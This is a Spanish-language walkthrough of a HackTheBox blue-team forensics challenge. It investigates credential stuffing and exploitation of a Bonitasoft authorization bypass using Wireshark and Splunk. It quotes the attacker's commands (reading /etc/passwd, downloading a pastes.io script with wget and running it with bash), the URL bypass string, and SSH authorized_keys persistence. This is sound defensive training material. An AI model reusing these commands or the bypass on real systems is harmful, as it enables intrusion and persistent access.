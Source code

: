 ```yaml
---
title: Meerkat
date: 2023-11-17 18:00:00 +/-TTTT
categories: [Threat Intel]
tags: [fácil, splunk, wireshark, threatintel, blue team]
img_path: /assets/sherlockresources/MEERKAT/
image: test.png
---
```


> Este es un reto de la sección Sherlocks en [HackTheBox](https://app.hackthebox.com/).
{: .prompt-tip}

## Escenario Sherlock

Como una startup de rápido crecimiento, Forela ha estado utilizando una plataforma de gestión empresarial. Por desgracia, nuestra documentación es escasa y nuestros administradores no son los más concienciados en materia de seguridad.

Como nuestro nuevo proveedor de seguridad, nos gustaría que echaras un vistazo a algunos PCAP y logs que hemos exportado para confirmar si hemos sido (o no) comprometidos.

## Recursos

![recursos](Pasted image 20231117150146.png)

## Tareas

### Tarea 1 - Creemos que nuestro servidor de la Plataforma de Gestión Empresarial ha sido comprometido. Por favor, ¿Puedes confirmar el nombre de la aplicación que se está ejecutando?

Primero abrimos la captura PCAP con Wireshark y filtramos por el protocolo HTTP en la barra de filtros `http`.
![http](Pasted image 20231117150557.png)

En los primeros paquetes tenemos mucha información valiosa:
* La comunicación entre `156.146.62.213` y `172.31.6.44`
* La petición a la URL `/bonita/portal/homepage`
* Respuestas del servidor con un **código 401 (Unauthorized)**, que sugiere que el "atacante" (aún no estamos seguros) trató de autenticarse repetidas veces, sin éxito.

> Si buscamos por Google vemos el nombre de la aplicación que se está ejecutando.
{: .prompt-tip}

![google](Pasted image 20231117151008.png)

### Tarea 2 - Creemos que el atacante puede haber utilizado una sub-técnica de la categoría Brute Force. ¿Cuál es el nombre del ataque realizado?

Revisando el framework MITRE ATT&CK, vemos que la Técnica **Brute Force** se divide en cuatro sub-técnicas.
![mitre](Pasted image 20231117151830.png)

**Password Guessing:**
Adversarios sin conocimiento previo de las credenciales legítimas dentro del sistema o entorno pueden adivinar las contraseñas para intentar acceder a cuentas.

**Password Cracking:**
Adversarios pueden utilizar el cracking de contraseñas para intentar recuperar credenciales utilizables, como contraseñas en texto plano o cuando se obtiene material de credenciales como hashes de contraseñas.

**Password Spraying:**
Adversarios pueden utilizar una sola contraseña o una pequeña lista de contraseñas de uso común en muchas cuentas diferentes para intentar obtener credenciales válidas.

**Credential Stuffing:**
Adversarios pueden utilizar credenciales obtenidas de filtraciones/brechas de seguridad para acceder a la organización víctima.

Por lo que tenemos que investigar cuál de ellas empleó el atacante a la hora de intentar pasar el login de `BonitaSoft`

Como queremos buscar por intentos de login fallidos, podemos filtrar por `http.request.method == POST` e investigar los paquetes enviados.
![post](Pasted image 20231117160412.png)

Dentro de las peticiones vemos que el atacante intentó acceder utilizando credenciales existentes de la organización, por lo que realizó un **Credential Stuffing**

### Tarea 3 - ¿La vulnerabilidad explotada tiene asignado un CVE y de ser así, cúal?

Como además del archivo **PCAP** tenemos un archivo de **alertas** en formato JSON, podemos subir el archivo a nuestro software/SIEM favorito. En este caso utilizaré **Splunk**.

![splunk](Pasted image 20231117163216.png)

Y tenemos un total de **789 eventos registrados**, de entre los cuales se encuentra una alerta con el campo `alert.metadata.cve{}`, que nos indica el **CVE** de la vulnerabilidad explotada.
![cve](Pasted image 20231117163314.png)

Además podemos ver que la IP que utilizó el atacante para el **Credential Stuffing** es diferente de esta, `138.199.59.221`

![credstuff](Pasted image 20231117165007.png)

> Investigando el **CVE** nos encontramos con que **Bonita Web 2021.2** se ve afectada por una **vulnerabilidad de evasión de autenticación/autorización** debido a un patrón de exclusión demasiado amplio utilizado en *RestAPIAuthorizationFilter*.
{: .prompt-tip}

Al añadir `;i18ntranslation` o `/../i18ntranslation/` al final de una URL, los usuarios sin privilegios pueden acceder a puntos finales de API privilegiados. Esto puede llevar a la **ejecución remota de código** abusando de las acciones privilegiadas de la API.

![bypass](Pasted image 20231117163628.png)

### Tarea 4 - ¿Qué cadena se añadió a la ruta URL de la API para evitar el filtro de autorización mediante el exploit del atacante?

Como realizó una petición a la API podemos regresar a nuestra captura en Wireshark y filtrar por los campos `http && ip.src_host == 138.199.59.221 `
![newip](Pasted image 20231117165250.png)

En los primeros paquetes nos aparece la cadena que utilizó para evitar el filtro de autorización, `i18ntranslation`

### Tarea 5 - ¿Cuántas combinaciones de usuario/contraseña fueron utilizadas en el ataque Credential Stuffing?

Podemos filtrar por `ip.src == 156.146.62.213 && http.request.method == POST` para ver todas las peticiones donde se introdujo un usuario y contraseña en el login.

![bruteforce](Pasted image 20231117170530.png)

Nos reporta 114 paquetes, pero tenemos que descontar aquellos que contienen los campos `install:install`.

![install](Pasted image 20231117170622.png)

Como se encuentran de forma intercalada, podemos dividir los 114/2 y nos da 57 paquetes. Solo nos queda restar el paquete que contiene el protocolo HTTP/JSON para que nos dé el total de credenciales utilizadas en el ataque, `56`.

![divide](Pasted image 20231117170940.png)

### Tarea 6 - ¿Qué combinación de usuario y contraseña fue exitosa?

Como ya sabemos que el atacante/grupo empleó dos IP diferentes, una para realizar el **Credential Stuffing** `156.146.62.213` y otra para explotar la vulnerabilidad CVE-2022-25237 `138.199.59.221`, podemos filtrar por `http && ip.src == 138.199.59.221`

![credentialas](Pasted image 20231117171550.png)
Vemos que la primera credencial que utilizó para explotar la vulnerabilidad fue `seb.broom@forela.co.uk:g0vernm3nt`

### Tarea 7 - Si lo hubiera, ¿Qué sitio de intercambio de texto utilizó el atacante?

Si filtramos por `ip.src == 138.199.59.221 && http.request.method == GET`, para ver las peticiones GET que realizó el atacante nos encontramos con tres comandos ejecutados gracias a la vulnerabilidad en Bonita Web, entre ellos una petición a `pastes.io`.

![text](Pasted image 20231117172556.png)

* cat /etc/passwd
* **wget https://pastes.io/raw/bx5gcr0et8**
* bash bx5gcr0et8

### Tarea 8 - Por favor, proporciona el hash del archivo del script utilizado por el atacante para obtener acceso persistente a nuestro host.

Si vemos lo que contiene la URL, nos encontramos con un script en Bash, que descarga otro archivo, lo agrega al final de `authorized_keys` y luego reinicia el servicio SSH, por lo que seguramente se trate de una clave pública.

![keys](Pasted image 20231117174341.png)

Podemos descargar el archivo (en un entorno virtualizado) con:
```bash
certutil -urlcache -f https://pastes.io/raw/bx5gcr0et8
```
y realizar un `Get-FileHash` con PowerShell:
```powershell
Get-FileHash -Algorithm MD5 bx5gcr0et8
```
![md5](Pasted image 20231117180635.png)

### Tarea 9 - Por favor, proporciona el hash del archivo de la clave pública utilizada por el atacante para obtener persistencia en nuestro host.

Empleando el mismo método, podemos ver que contiene la URL del primer script, logrando ver la **clave pública del atacante**.

Podemos descargarla de la misma manera que hicimos y obtener el hash MD5.
![download](Pasted image 20231117181253.png)
![download2](Pasted image 20231117181432.png)

### Tarea 10 - ¿Puedes confirmar el archivo modificado por el atacante para ganar persistencia?

En el script se puede observar que almacena el archivo en `/home/ubuntu/.ssh/authorized_keys`

### Tarea 11 - ¿Puedes confirmar el ID de la técnica MITRE de este tipo de mecanismo de persistencia?

Viendo el framework MITRE ATT&CK dentro la táctica **Persistence**, y la técnica **Account Manipulation**, podemos ver la sub-técnica **SSH Authorized Keys** con el ID de `T1098.004`
![mitre2](Pasted image 20231117182330.png)

![solved](Pasted image 20231117182805.png)